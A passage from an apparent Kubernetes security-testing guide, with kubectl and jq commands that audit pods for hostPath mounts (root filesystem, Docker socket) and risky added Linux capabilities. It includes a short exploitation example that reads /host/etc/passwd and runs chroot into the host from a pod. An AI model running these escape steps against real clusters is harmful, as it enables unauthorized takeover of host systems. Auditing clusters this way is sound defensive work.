**Testing Commands:**
```bash
# Check for host path volumes
kubectl get pods --all-namespaces -o json | jq '.items[] | select(.spec.volumes[]?.hostPath != null) | {name: .metadata.name, namespace: .metadata.namespace, hostPaths: [.spec.volumes[] | select(.hostPath != null) | .hostPath.path]}'

# Look for root filesystem mounts
kubectl get pods --all-namespaces -o json | jq '.items[] | select(.spec.volumes[]?.hostPath?.path == "/") | {name: .metadata.name, namespace: .metadata.namespace}'

# Check for Docker socket mounts
kubectl get pods --all-namespaces -o json | jq '.items[] | select(.spec.volumes[]?.hostPath?.path == "/var/run/docker.sock") | {name: .metadata.name, namespace: .metadata.namespace}'

# Dangerous mount patterns
kubectl get pods -A -o yaml | grep -E "hostPath|/var/run/docker.sock|/proc|/sys|/etc|/"
```

**What to Look For:**
- `/` (root filesystem)
- `/var/run/docker.sock` (Docker socket)
- `/proc`, `/sys`, `/dev` (system directories)
- `/etc` (configuration files)
- Any sensitive host directories

**Exploitation Example:**
```bash
# If root filesystem is mounted to /host
kubectl exec -it dangerous-pod -- ls /host
kubectl exec -it dangerous-pod -- cat /host/etc/passwd
kubectl exec -it dangerous-pod -- chroot /host bash
# Now you're on the host system
```

### 4. Dangerous Capabilities
**Vulnerability:** Linux capabilities that allow privilege escalation or system access.

**Testing Commands:**
```bash
# Check for added capabilities
kubectl get pods -A -o json | jq '.items[] | {name: .metadata.name, namespace: .metadata.namespace, containers: [.spec.containers[] | select(.securityContext?.capabilities?.add != null) | {name: .name, addedCaps: .securityContext.capabilities.add}]}'

# Check security contexts for capabilities
kubectl get pods -A -o yaml | grep -A 20 -B 5 "capabilities:"

# Look for dangerous capabilities
kubectl get pods -A -o json | jq '.items[] | {name: .metadata.name, namespace: .metadata.namespace} as $pod | .spec.containers[] | select(.securityContext?.capabilities?.add != null) | select(.securityContext.capabilities.add[] | test("SYS_ADMIN|SYS_PTRACE|SYS_MODULE|DAC_OVERRIDE|SETUID|SETGID|NET_ADMIN")) | {pod: $pod, container: .name, dangerousCaps: .securityContext.capabilities.add}'
```
